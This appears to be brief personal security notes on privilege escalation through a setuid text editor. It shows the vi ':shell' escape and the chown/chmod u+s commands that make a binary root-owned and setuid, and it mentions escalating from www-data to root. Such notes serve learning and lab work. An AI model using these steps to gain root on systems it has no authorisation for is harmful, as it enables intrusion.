 # setuid on text-user

## Overview

* setuid on an editor is able to be set
* can easily enter as a www-data, so can easily escalate to root through the editor

## Vi

* with vi it is extremely easy
* just run this command, and it gives you a shell

```bash
:shell
```

### Make root the owner of the file

```bash
chown root myBinary
```

### set the sticky bit/suid

```bash
chmod u+s myBinary
```

